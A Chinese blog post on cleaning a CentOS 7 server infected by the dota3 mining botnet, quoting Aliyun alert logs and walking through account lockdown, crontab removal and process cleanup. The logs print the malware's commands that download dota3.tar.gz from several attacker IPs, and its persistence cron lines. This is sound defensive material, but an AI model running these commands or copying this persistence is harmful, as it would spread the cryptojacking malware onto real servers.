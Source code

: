 ```yaml
---
layout: post
title: CentOS7 下处理挖矿僵尸网络dota3木马攻击
tags: linux CentOS security
categories: security
---
```

<style type="text/css">
    p{text-indent: 20px}
</style>
<p>凌晨的时候，收到阿里云服务器的告警短信。<span style="color:red">紧急安全事件：访问恶意下载源，访问恶意下载IP。</span> 瞬间惊醒，立刻爬起来处理。</p>

<p>先登录阿里云后台，查看安全中心的告警祥情，发现有几条记录：</p>
```shell
父进程路径：/usr/bin/bash
父进程命令行：sh -c ./tddwrt7s.sh "http://67.205.135.65/dota3.tar.gz" 
"http://91.121.51.120/dota3.tar.gz" "http://51.75.28.134/dota3.tar.gz" 
"http://159.203.17.176/dota3.tar.gz" "http://46.101.113.206/dota3.tar.gz" 
"http://104.131.189.116/dota3.tar.gz" "http://81.12.13.145/dota3.tar.gz" >.out 2>&1 3>&1
```
***
```shell
父进程id：15912
进程id：15913
用户名：user_web
URL链接：http://91.121.51.120/dota3.tar.gz
进程路径：/usr/bin/bash
命令行参数：/bin/bash ./tddwrt7s.sh http://67.205.135.65/dota3.tar.gz 
http://91.121.51.120/dota3.tar.gz http://51.75.28.134/dota3.tar.gz 
http://159.203.17.176/dota3.tar.gz http://46.101.113.206/dota3.tar.gz 
http://104.131.189.116/dota3.tar.gz http://81.12.13.145/dota3.tar.gz
```
***
```shell
父进程路径：/usr/bin/bash
父进程命令行：-bash
父进程id：9071
进程id：9186
用户名：user_web
URL链接：http://45.55.129.23/dota3.tar.gz
进程路径：/usr/bin/wget
命令行参数：wget http://45.55.129.23/dota3.tar.gz
```
***

<span style="font-size: 40px;color: red">root账号，登录服务器，排查问题。</span>

查看服务器有无可疑的TCP端口：
```shell
$ netstat -lnpt
```
没有发现非常用端口。

根据告警信息，拿进程id找对应的进程，一个都没有找到。

### 一、立刻做几个操作：
1. 修改web_user密码（当前服务器除了root，就只有web_user授权ssh登录）；
2. 修改root密码，禁止root的ssh登录（只能先登录web_user，再切到root账号）；
3. 清掉root, web_user 目录下.ssh/authorized_keys 里面所有公钥（禁止所有密钥登录）；

然后，再一步步来查。
<p>没有找到对应的进程，看下是不是有crontab，定时执行，执行完进程就退出，找不到告警时的进程id。</p>

### 二、查找服务器所有账号的crontab:
```shell
$ cat /etc/passwd | cut -f 1 -d : |xargs -I {} crontab -l -u {}
...
no crontab for tcpdump
no crontab for ntp
no crontab for saslauth
no crontab for mysql
5 8 * * 0 /home/user_web/.configrc/a/upd>/dev/null 2>&1
@reboot /home/user_web/.configrc/a/upd>/dev/null 2>&1
5 8 * * 0 /home/user_web/.configrc/b/sync>/dev/null 2>&1
@reboot /home/user_web/.configrc/b/sync>/dev/null 2>&1  
0 0 */3 * * /tmp/.X25-unix/.rsync/c/aptitude>/dev/null 2>&1
no crontab for haproxy
...
```
发现了crontab，脚本在user_web目录。

- 立刻删除 /home/user_web/目录下，crontab使用的 和 不认识的隐藏目录。
- 查看是不是user_web账号起的crontab：
```shell
$ crontab  -l -u user_web
5 8 * * 0 /home/user_web/.configrc/a/upd>/dev/null 2>&1
@reboot /home/user_web/.configrc/a/upd>/dev/null 2>&1
5 8 * * 0 /home/user_web/.configrc/b/sync>/dev/null 2>&1
@reboot /home/user_web/.configrc/b/sync>/dev/null 2>&1  
0 0 */3 * * /tmp/.X25-unix/.rsync/c/aptitude>/dev/null 2>&1
```
果然是user_web起的。

- 清理web_user下所有的crontab。
```shell
$ crontab  -r -u user_web
```

### 三、查找还有没有使用user_web账号运行的进程：
```shell
$ ps -ef | grep user_web
user_web      25408     1  0 00:14 ?        00:00:00 /tmp/.X25-unix/.rsync/c/lib/64/tsm --library-path /tmp/.X25-unix/.rsync/c/lib/64/ /tmp/.X25-unix/.rsync/c/tsm64 -t 515 -f 1 -s 12 -S 10 -p 0 -d 1 p ip
root     32695 30901  0 01:06 pts/1    00:00:00 grep --color=auto user_web
```
找到了user_web执行的进程，脚本文件所在的路径，在 /tmp/ 目录下的隐藏文件。

先杀掉进程：
```shell
$ kill -9 25408
```
进入目录：
```shell
$ cd /tmp/
```
进入目录，查看包括隐藏文件在内的所有文件：
```shell
$ ls -la
```
删掉隐藏目录：
```shell
$ rm -rf .X25-unix
```

### 四、根据告警中出现的进程路径/usr/bin/bash，再次查找sh脚本进程：
```shell
$ ps -ef | grep sh
user_web  3768      1  0 00:00 ?      00:00:00 /bin/bash ./go
root      24487     1  0 Mar25 ?      01:53:25 /usr/sbin/sshd -D
user_web  25403 25402  0 00:14 ?      00:00:00 /bin/bash ./tsm -t 515 -f 1 -s 12 -S 10 -p 0 -d 1 p ip
root      30862 24487  0 01:37 ?      00:00:01 sshd: user_web [priv]
user_web  30866 30862  0 01:37 ?      00:00:00 sshd: user_web@pts/1
user_web  30867 30866  0 01:37 pts/1  00:00:00 -bash
root      30901 30896  0 01:38 pts/1  00:00:00 bash
root      31799 30901  0 01:53 pts/1  00:00:00 grep --color=auto sh
```
又找到了几个可疑的进程。查看进程信息，找进程执行路径cwd，对应的执行命令cmd：
```shell
$ ll /proc/25403 
```
找到进程脚本路径，杀掉进程，再删掉脚本文件所在的文件夹：

至此，清理完毕。

### 后续： 加强异地登录的告警，强化账号登录的认证，添加部署谷歌验证器(Google Authenticator) 

>后记，观察几天，再没有收到阿里云的告警信息。


